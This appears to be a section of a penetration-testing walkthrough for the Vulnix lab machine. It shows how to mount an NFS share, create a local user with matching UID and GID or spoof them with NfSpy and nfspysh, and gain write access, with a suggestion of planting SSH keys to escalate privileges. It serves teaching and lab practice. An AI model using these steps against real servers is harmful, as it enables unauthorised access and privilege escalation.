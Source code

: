 You can manually mount an NFS share using the `mount` command, but you won't be able to access the directory unless the UID and GID of your user matches those of the shared directory on the server:

```bash
$ mkdir ~/nfs-mount
$ sudo mount -t nfs -o vers=3 192.168.56.108:/home/vulnix ~/nfs-mount/
$ ls -ld nfs-mount/

drwxr-x--- 2 2008 2008 4096 Sep  2  2012 nfs-mount/
```
You will need to create a new user and group with matching UIDs and GIDs and run all your commands as that user.

```bash
$ sudo groupadd -g 2008 vulnix
$ sudo adduser vulnix -uid 2008 -gid 2008
$ su vulnix
```

Now you can access the directory normally:

```bash
$ ls -a ~/nfs-mount

. .. .bash_logout .bashrc .profile
```

From here you now have a read/write access which you can use to escalate privileges, for example by uploading your own SSH keys.


### NfSpy

The process of mounting an NFS share can be simplified with NfSpy.
NfSpy works by using FUSE to mount the NFS share in userspace, and spoofs the UID and GID instead of actually creating a new user.

NfSpy used to come with Kali OS, but was removed from `kali-rolling` in 2019 as the source code was no longer maintained and archived.
To install NfSpy simply clone [the git repository](https://github.com/bonsaiviking/NfSpy/) and then run `sudo python2 setup.py install`.

```bash
$ nfspy -o server=192.168.2.4:/home/vulnix,nfsport=2049/tcp,rw vulnix-mount
$ ls -a vulnix

.  ..  .bash_logout  .bashrc  .profile
```

Alternatively, you can get an FTP-like shell using `nfspysh`, which doesn't require FUSE and therefore is much more convenient to deploy for Windows and other OS users:

```
nfspysh -o server=192.168.56.108:/home/vulnix

nfspy@192.168.56.108:/home/vulnix:/> ls
/:
040750   2008   2008        4096 2012-09-02 19:25:02 .
100644   2008   2008         220 2012-04-03 16:58:14 .bash_logout
100644   2008   2008         675 2012-04-03 16:58:14 .profile
040750   2008   2008        4096 2012-09-02 19:25:02 ..
100644   2008   2008        3486 2012-04-03 16:58:14 .bashrc
```
